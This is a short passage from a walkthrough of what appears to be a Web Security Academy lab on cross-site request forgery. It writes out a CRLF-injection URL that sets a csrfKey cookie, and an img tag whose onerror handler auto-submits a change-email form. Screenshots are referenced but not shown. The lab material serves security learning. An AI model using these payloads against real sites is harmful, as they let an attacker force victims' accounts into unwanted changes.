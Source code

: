 Now add this line

`https://0abc00120462e59382bff7ba00f100ac.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=k9vnSgJiDAQtryN7Kn3Ttmzje92fVWzG%3b%20SameSite=None`

Here
`Lab session id=0abc00120462e59382bff7ba00f100ac`

`Csrfkey=k9vnSgJiDAQtryN7Kn3Ttmzje92fVWzG`

Final look:

`<img src="https://0abc00120462e59382bff7ba00f100ac.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=k9vnSgJiDAQtryN7Kn3Ttmzje92fVWzG%3b%20SameSite=None" onerror="document.forms[0].submit()">`

<img src="images/image30.png" alt="third" width="800">

Now we login as wiener in browser and add this in exploit place in site

<img src="images/image31.png" alt="third" width="800">

- change email address
